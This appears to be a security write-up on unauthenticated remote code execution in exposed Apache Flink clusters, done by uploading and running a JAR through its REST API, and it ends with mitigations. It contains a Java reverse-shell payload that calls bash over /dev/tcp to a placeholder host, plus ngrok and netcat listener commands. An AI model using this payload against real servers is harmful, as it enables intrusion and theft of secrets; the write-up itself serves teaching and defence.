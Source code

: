 # Flink my secrets

## Vulnerability
Unauthenticated RCE

## Exploitation
According to [Flink itself](https://flink.apache.org/what-is-flink/security/):
> Apache Flink is a framework for executing user-supplied code in clusters. Users can submit code to Flink processes, which will be executed unconditionally, without any attempts to limit what code can run. Starting other processes, establishing network connections or accessing and modifying local files is possible.  
> (...)  
> **We strongly discourage users to expose Flink processes to the public internet**. Within company networks or “cloud” accounts, we recommend restricting access to a Flink cluster via appropriate means.

Flink's REST API allows uploading and submitting jobs.  
With a default installation of Flink, the web UI provides a tab for this.

Either from browsing the UI, or taking a look at [Flink's REST API documentation](https://nightlies.apache.org/flink/flink-docs-master/docs/ops/rest_api/), we find two interesting endpoints: `/jars/upload` and `/jars/:jarid/run`.

With those, we can submit any JAR to Flink and it will execute it, running whatever code we write, like reading environment variables and sending them to us over internet.  
Or we could use a common reverse shell payload (cf [revshells.com](https://www.revshells.com/)), get a shell on the server and execute any command we want, replacing <HOST> and <PORT> by a server listening at the given port (e.g. open a tcp tunnel `ngrok tcp <LOCAL_PORT>` and then listen `nc -lvnp <LOCAL_PORT>`).
```java
public class App {

    public static void main(String[] args) throws Exception {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/<HOST>/<PORT> 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

## Fix
The setting `web.submit.enable: false` forbids the upload of jars (it is still possible to submit a job!).  
This behavior is weirdly documented, but confirmed on the [mailing list](https://lists.apache.org/thread/0gz5qf1bnvk7c6ccc5qrz0xm30h3nbyv), and [seems to break the Kubernetes operator](https://www.mail-archive.com/user@flink.apache.org/msg51346.html) for Flink.

An alternative is to limit who can access it.  
Flink doesn't provide authentication mecanism either, so it has to be handled differently. For example it is possible to tunnel the connection to Flink through a proxy that will serve as an authentication layer.
